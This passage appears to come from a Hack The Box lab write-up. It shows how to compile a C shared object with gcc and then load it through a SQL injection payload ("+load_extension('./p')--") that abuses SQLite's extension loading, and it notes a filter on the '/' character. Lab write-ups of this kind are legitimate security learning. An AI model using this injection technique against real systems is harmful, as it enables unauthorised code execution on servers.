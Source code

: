 And then I can use **gcc** to compile our C script :

```bash
gcc -shared -fPIC -nostartfiles -o p.so p.c
```

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231017191739.png>)

[https://stackoverflow.com/questions/6663124/how-to-load-extensions-into-sqlite](https://stackoverflow.com/questions/6663124/how-to-load-extensions-into-sqlite)

```bash
"+load_extension('./p')--"
```

In the first try that didn't work because as we can see there is a filtering on the '/' char :

![Alt text](<../../../assets/images/HTBPics/Pasted image 20231017160835.png>)
